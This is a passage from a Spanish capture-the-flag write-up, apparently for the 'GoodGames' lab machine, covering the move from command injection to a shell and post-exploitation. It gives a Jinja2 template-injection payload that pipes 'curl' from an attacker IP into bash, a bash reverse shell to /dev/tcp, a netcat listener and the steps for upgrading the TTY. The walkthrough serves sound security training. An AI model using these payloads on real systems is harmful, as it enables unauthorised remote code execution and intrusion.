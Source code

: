 ![Conseguimos ejecutar comandos]({{ 'assets/img/commons/goodgames/command_injection.png' | relative_url }}){: .center-image }
_Conseguimos ejecutar comandos_

Vamos a mandarnos una reverse shell, yo voy a utilizar `curl` para hacerlo. Nos crearemos un archivo "index.html" que contenga una reverse shell, luego desde la máquina víctima apuntaremos a esta url y lo ejecutaremos con `bash`.

Este será el archivo "index.html":

```plaintext
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.9/443 0>&1
```

Vamos a crearnos un servidor web que aloje el archivo "index.html" y vamos a ponernos en escucha en el puerto 443.

```plaintext
❯ python3 -m http.server 80
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ahora vamos a mandarnos la petición desde la máquina víctima, utilizaremos el siguiente payload: "\{\{ self._TemplateReference__context.cycler.\_\_init__.\_\_globals__.os.popen('curl http://10.10.14.9 \| bash').read() \}\}"

Nos debería haber llegado una reverse shell, vamos a tratar la tty para hacerla completamente funcional.

```plaintext
> script /dev/null -c bash
Script started, file is /dev/null
> CTRL + Z
suspended  nc -nlvp 443
❯ stty raw -echo; fg
nc -nlvp 443
	reset
reset: unknow terminal type unknown
Terminal type? xterm
> export SHELL=bash
> export TERM=xterm
> stty rows 41 columns 184
```

---
## Post-explotación

Lo primero, vamos a intentar ver la flag del usuario.

```plaintext
> cd /home
> ls 
augustus
cd augustus; cat user.txt
25cbadd89133afc4****************
```
